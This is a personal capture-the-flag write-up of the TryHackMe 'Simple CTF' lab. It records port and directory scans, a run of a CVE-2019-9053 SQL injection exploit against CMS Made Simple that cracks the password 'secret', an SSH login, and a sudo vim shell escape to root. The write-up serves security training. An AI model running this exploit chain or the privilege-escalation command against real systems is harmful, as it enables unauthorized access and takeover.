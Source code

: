 ```yaml
---
creation date: December 18th 2022
last modified date: December 18th 2022
aliases: []
tags: #🎌
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #🎌  

# [[THM - Simple CTF]]  


# Resolution summary
- As the name suggests this was a pretty straight forward CTF with a bit of a walkthrough

## Improved skills
- skill 1
- skill 2

## Used tools
- [[nmap]]
- 

---

# Information Gathering
Scanned all TCP ports:
```bash
PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
2222/tcp open  EtherNetIP-1
```

Enumerated open TCP ports:
```bash
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.13.0.100
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 294269149ecad917988c27723acda923 (RSA)
|   256 9bd165075108006198de95ed3ae3811c (ECDSA)
|_  256 12651b61cf4de575fef4e8d46e102af6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Enumerated top 200 UDP ports:
```bash
PORT     STATE  SERVICE
2222/udp closed msantipiracy
```

Gobuster Scan with common.txt
```bash
/.htaccess            (Status: 403) [Size: 297]
/.hta                 (Status: 403) [Size: 292]
/.htpasswd            (Status: 403) [Size: 297]
/index.html           (Status: 200) [Size: 11321]
/robots.txt           (Status: 200) [Size: 929]
/server-status        (Status: 403) [Size: 301]
/simple               (Status: 301) [Size: 315] [--> http://10.10.171.100/simple/]
```

---

# Enumeration
## Port 80 (Apache 2.4.18)
No exploits found for this

We located a webpage on this site using a gobuster scan that goes to **/simple**. This takes us to a site powered by **CMS Made Simple**.

### CMS Made Simple
```bash
└─$ searchsploit CMS Made Simple 2.2.8
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                             |  Path
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
CMS Made Simple < 2.2.10 - SQL Injection                                                                                   | php/webapps/46635.py
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

---

# Exploitation
## CVE-2019-9053 SQLi
Ran script after adjusting it to work with python3
`python exploit.py -u http://10.10.171.100/simple --crack -w /usr/share/wordlist/rockyou.txt`
```bash
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```


---

# Lateral Movement to user
## Local Enumeration
SSH *mitch:secret*
- Located user.txt in home of user mitch

## Lateral Movement vector


---

# Privilege Escalation
## Local Enumeration
- User mitch `sudo -l` contained a NOPASSWD for [[vim]]

## Privilege Escalation vector
```bash
sudo vim -c ':!/bin/sh'
```

---

# Trophy & Loot

user.txt = *G00d j0b, keep up!*
root.txt = *W3ll d0n3. You made it!*

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 18th 2022 (08:10 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
